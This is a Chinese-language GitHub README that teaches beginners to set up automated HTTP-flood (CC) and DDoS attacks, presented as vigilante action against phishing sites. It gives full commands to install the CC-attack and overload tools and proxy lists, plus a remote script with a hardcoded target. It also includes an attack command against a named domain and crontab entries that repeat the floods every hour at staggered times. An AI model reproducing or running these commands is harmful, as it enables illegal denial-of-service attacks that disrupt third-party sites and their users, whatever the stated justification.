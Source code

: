 # Nyaa:Automata
## 菜鸟级CC+DDOS自动打击部署教程

*制作工具是人类于其他动物的区别……但如何使用工具是人和人的区别……*

## 前言

这只是为了维护艾欧泽亚不受钓鱼诈骗网站干涉而定制的自动打击策略，故很多参数写死定向打击特定网站，虽然根据实际情况，有能力编辑者脚本中最好自己维护打击目标，但请不要滥用于其他途径。

## 环境级工具

[x] Linux
[x] Python3
[x] Python3-pip
[x] [**Leeon123/CC-attack**](https://github.com/Leeon123/CC-attack)
[x] [**TheSpeedX/PROXY-List**](https://github.com/TheSpeedX/PROXY-List)
[x] [**7zx/overload**](https://github.com/7zx/overload)

## linunx系统语法注意
- 如果是ubuntu debian系的系统，命令前缀使用 apt
- 如果是centos redhead系的系统，命令前缀使用 yum
- 如果是非root权限账号，请在上述命令前加 sudo

## 安装环境依赖
    apt update -y
    apt install git vim zip python3 python3-pip -y
    wget https://nyaacaster.github.io/FisherHunter/overload_py/requirements.txt
    pip3 install -r requirements.txt

## 安装CC-attack

    git clone https://github.com/Leeon123/CC-attack.git

## 获取Proxy-List（cc的喂料包，这有点大）
    git clone https://github.com/ShiftyTR/Proxy-List.git

## 安装overload（ddos工具）
    git clone https://github.com/7zx/overload.git
    cd overload/
    wget https://nyaacaster.github.io/FisherHunter/overload_py/overload_p.py
    cd ..

* overload_p.py这个脚本可以自己打开看一下，里面我把手动输入的变量全部写死了以便当自动脚本使用，目标网址可以根据自己情况调整


## 如果要单独一次性执行cc
    python3 ~/CC-attack/cc.py -url http://liwuhe51.top -f ~/Proxy-List/socks4.txt -v 4 -s 30

  命令中地址自己根据情况调整目标网址

## 如果要单独一次性执行ddos
    python3 ~/overload/overload_p.py

  自己修改建立了新脚本后执行自己的就可以


## 部署订制执行计划
    crontab -e

  (姑且扫盲一下vim的操作）进入文件后，方向箭移动光标到要修改的地方（这里移动到最末行最末尾）按 i 进入编辑模式

## 插入的计划任务
    0 * * * * python3 ~/CC-attack/cc.py -url http://liwuhe51.top -f ~/Proxy-List/socks4.txt -v 4 -s 30
    30 * * * * python3 ~/overload/overload_p.py

  编辑完成后按esc退出编辑
  英文输入 :qw 保存退出，之后即使重启系统，依然会定时执行
  时间计划可以自己安排，最好跟我的0和30错开，打到交叉打击效果

## 附录：crontab的语法简要说明
    *    *    *    *    *
    |    |    |    |    |
    |    |    |    |    +----- 星期中星期几 (0 - 6) (星期天 为0)
    |    |    |    +---------- 月份 (1 - 12) 
    |    |    +--------------- 一个月中的第几天 (1 - 31)
    |    +-------------------- 小时 (0 - 23)
    +------------------------- 分钟 (0 - 59)

  每个时间单位的位置都可以写多个值，英文逗号分隔
  例如：0,5,10 * * * * 这个例子代表每小时的0分 5分 10分各执行一次，合计每小时执行3次
- 更多语法请阅读 [**Linux crontab命令 菜鸟教程**](https://www.runoob.com/linux/linux-comm-crontab.html)（我都看得懂，你一定没问题）
